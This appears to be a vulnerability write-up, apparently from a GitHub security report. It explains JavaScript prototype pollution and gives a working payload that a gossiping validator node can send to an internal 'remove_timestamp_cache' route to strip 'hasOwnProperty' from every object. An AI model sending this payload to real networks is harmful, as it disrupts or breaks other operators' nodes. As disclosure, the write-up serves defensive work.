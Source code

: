 ### Deleting the default inherited properties of all Javascript objects, existing and to-be-created.

As a test, create an object in Typescript:
```
let anyObject = JSON.parse("{}");
```
Then print the output of its "*toString()*" function:
```
console.log(anyObject.toString());

// "[object Object]"
```
The console will output *"[object Object]"*

Now, delete and set `anyObject['__proto__']['toString']` to null, then print the output of its "*toString()*" function:
```
delete anyObject['__proto__']['toString'];
anyObject['__proto__']['toString'] = null;

console.log(anyObject.toString()); 

// ERROR: anyObject.toString is not a function. (In 'anyObject.toString()', 'anyObject.toString' is null) 
```
The error "anyObject.toString is not a function. (In 'anyObject.toString()', 'anyObject.toString' is null) " is thrown.

But what's worse, we deleted *toString()* from ALL existing objects and any new object created.

Create a completely new object right after and run his *toString()* function:
```
let anotherObject = JSON.parse("{}");

console.log(anotherObject.toString());

// ERROR: anotherObject.toString is not a function. (In 'anotherObject.toString()', 'anotherObject.toString' is null) 
```

### Exploiting the attack vector

Active nodes can gossip other validators to the internal route `remove_timestamp_cache`.

If the gossipped message contains the following payload:

```
{ txId: "hasOwnProperty", cycleCounter: "__proto__", receipt2: "ok" }
```

Then the vulnerable code evaluates to:

```
    // returns true
    if (this.txTimestampCache[ '__proto__' ] && 
      // returns true
      this.txTimestampCache[ '__proto__' ][ 'hasOwnProperty' ]) {

      delete this.txTimestampCache[ '__proto__' ][ 'hasOwnProperty' ]
      this.txTimestampCache[ '__proto__' ][ 'hasOwnProperty' ] = null

      // The property hasOwnProperty was removed from all objects

    }
```
